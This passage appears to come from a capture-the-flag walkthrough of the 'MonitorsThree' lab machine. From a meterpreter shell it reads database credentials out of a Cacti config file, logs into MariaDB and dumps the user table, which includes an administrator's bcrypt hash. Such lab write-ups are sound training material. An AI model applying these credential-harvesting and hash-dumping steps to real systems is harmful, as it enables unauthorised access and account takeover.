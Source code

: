 ```bash
meterpreter > getuid
Server username: www-data
```

After some exploring, we find this in `/html/cacti/include/config.php`

```sql
$database_type     = 'mysql';                                                    
$database_default  = 'cacti';
$database_hostname = 'localhost';
$database_username = 'cactiuser';
$database_password = 'cactiuser';
$database_port     = '3306';
$database_retries  = 5;
$database_ssl      = false;
$database_ssl_key  = '';
$database_ssl_cert = '';
$database_ssl_ca   = '';
$database_persist  = false;
```

We now have some credentials **cactiuser - cactiuser** and we can use them to connect to the db

```bash
www-data@monitorsthree:~/html/cacti/include$ mysql -u cactiuser -p
mysql -u cactiuser -p
Enter password: cactiuser

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 7899
Server version: 10.6.18-MariaDB-0ubuntu0.22.04.1 Ubuntu 22.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
```

And we can then find some hashes for some users in the databases

```sql
MariaDB [cacti]> select * from user_auth;
select * from user_auth;
+----+----------+--------------------------------------------------------------+-------+---------------+--------------------------+----------------------+-----------------+-----------+-----------+--------------+----------------+------------+---------------+--------------+--------------+------------------------+---------+------------+-----------+------------------+--------+-----------------+----------+-------------+
| id | username | password                                                     | realm | full_name     | email_address            | must_change_password | password_change | show_tree | show_list | show_preview | graph_settings | login_opts | policy_graphs | policy_trees | policy_hosts | policy_graph_templates | enabled | lastchange | lastlogin | password_history | locked | failed_attempts | lastfail | reset_perms |
+----+----------+--------------------------------------------------------------+-------+---------------+--------------------------+----------------------+-----------------+-----------+-----------+--------------+----------------+------------+---------------+--------------+--------------+------------------------+---------+------------+-----------+------------------+--------+-----------------+----------+-------------+
|  1 | admin    | $2y$10$tjPSsSP6UovL3OTNeam4Oe24TSRuSRRApmqf5vPinSer3mDuyG90G |     0 | Administrator | marcus@monitorsthree.htb |                      |                 | on        | on        | on           | on             |          2 |             1 |            1 |            1 |                      1 | on      |         -1 |        -1 | -1               |        |               0 |        0 |   436423766 |
```